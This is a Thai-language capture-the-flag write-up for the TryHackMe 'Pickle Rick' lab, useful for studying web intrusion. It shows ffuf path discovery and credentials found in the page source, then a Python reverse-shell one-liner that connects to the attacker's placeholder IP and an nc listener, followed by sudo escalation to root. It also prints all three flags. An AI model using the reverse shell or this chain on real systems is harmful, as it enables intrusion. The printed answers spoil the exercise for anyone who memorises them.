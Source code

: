 source : [Pickle Rick](https://tryhackme.com/room/picklerick)<br>
title :  Web-application <br>
IP : 10.10.245.77 <br>
## Step 1 discovery Hidden Path with FFUF
เมื่อลองเข้าไปที่ `http://10.10.245.77` ก็จะพบกับหน้า index
![Rick_1.png](picture_thm/Rick_1.png)
ลองใช้ `FFUF` ค้นหา `paths` อื่นๆที่ถูกซ่อนไว้ดู
```shell
┌──(root㉿kali)-[~]
└─# ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/php_wordlist.txt -u http://10.10.245.77/FUZZ mc 200,301,302

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.245.77/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/php_wordlist.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

login.php               [Status: 200, Size: 882, Words: 89, Lines: 26, Duration: 329ms]
portal.php              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 304ms]
:: Progress: [5172/5172] :: Job [1/1] :: 47 req/sec :: Duration: [0:00:51] :: Errors: 0 ::

```
จากผลลัพธ์ที่ได้ก็จะเจอ `login.php and portal.php` ให้ชองเข้าไปดูที่ `login.php`
![Rick_1.png](picture_thm/Rick_2.png)
ตอนนี้เรายังไม่มีรหัสผ่านและชื่อผู้ใช้ ให้ลองหาที่ `robots.txt` และ `inspector` ก็จะได้ `username and password ` 
> หมายเหตุ : username ดูจากหน้า index.php

username : `R1ckRul3s` <br>
password : `Wubbalubbadubdub`
## Step 2 access to server with reverse shell

หลังจากเข้ามาแล้วเราก็จะเจอกับหน้า `Command Panel` ที่เราสามารถใส่คำสั่งลงไปได้ เมื่อเราลอง lists ไฟล์ออกมาดูก็จะพบกับไฟล์ `Sup3rS3cretPickl3Ingred.txt` แต่เมื่อเราลองใช้คำสั่ง `cat` เพื่ออ่านไฟล์ ปรากฎว่า ไม่มีคำสั่งนี้ให้เราใช้ ดังนั้น จึงลองอีกคำสั่งที่มีความคล้ายคลึงกัน ก็คือคำสั่ง `tac (cat แบบ reverse)` <br>
first flag : `mr. meeseek hair` <br>
ต่อไปเราต้องการที่จะทำการเข้าถึงเครื่องเป้าหมายผ่าน reverse shell โดยในช่องของ command panel ให้ใส่คำสั่งนี้ลองไป
```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<your ip>",<your port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
# plase remove <> before exploit
```
และในเครื่องของเราให้รันคำสั่ง
```shell
nc -lvnp <port>
```
>หมายเหตุ : รันคำสั่งในเครื่องตัวเองก่อนเพื่อรอรับค่าจาก target server

หลังจากนั้นเมื่อเข้าสู้เครื่องเป้าหมายได้แล้ว ให้รันคำสั่งต่อไปนี้เพื่อให้ง่ายต่อการค้นหาไฟล์
```python
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
## Step 3 Final Result
เมื่อเราเข้ามาได้แล้ว ให้เราทำการตรวจสอบสิทธิ์ของตนเอง
```shell
www-data@ip-10-10-245-77:/var/www/html$ whoami
www-data
www-data@ip-10-10-245-77:/var/www/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
ตอนนี้เราเป็นแค่ `www-data` ดังนั้นลองใช้ `sudo -l` เพื่อมองหาว่า เราสามารถใช้สิทธิ์สูงสุดกับอะไรได้บ้างโดยไม่ใช้รหัสผ่าน
```shell
www-data@ip-10-10-245-77:/var/www/html$ sudo -l
Matching Defaults entries for www-data on ip-10-10-245-77:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-245-77:
    (ALL) NOPASSWD: ALL

```
จะเห็นได้ว่า เราสามารถใช้ได้ทุกคำสั่งเลย ดังนั้นเรายกระดับสิทธิ์ตัวเองให้เป็น `root`
```shell
www-data@ip-10-10-245-77:/var/www/html$ sudo su
root@ip-10-10-245-77:/var/www/html# whoami
root
```
ตอนนี้ เราก็ได้สิทธิ์สูงสุดมาแล้ว เราจึงจะไปดูที่ `/home/rick` 
```shell
root@ip-10-10-245-77:/var/www/html# cd /home/rick
root@ip-10-10-245-77:/home/rick# ls
'second ingredients'
root@ip-10-10-245-77:/home/rick# tac 'second ingredients'
1 jerry tear
```
second flag : `1 jerry tear`
```shell
root@ip-10-10-245-77:/home/rick# cd /root
root@ip-10-10-245-77:~# ls
3rd.txt  snap
root@ip-10-10-245-77:~# tac 3rd.txt        
3rd ingredients: fleeb juice
```
final flag : `fleeb juice`
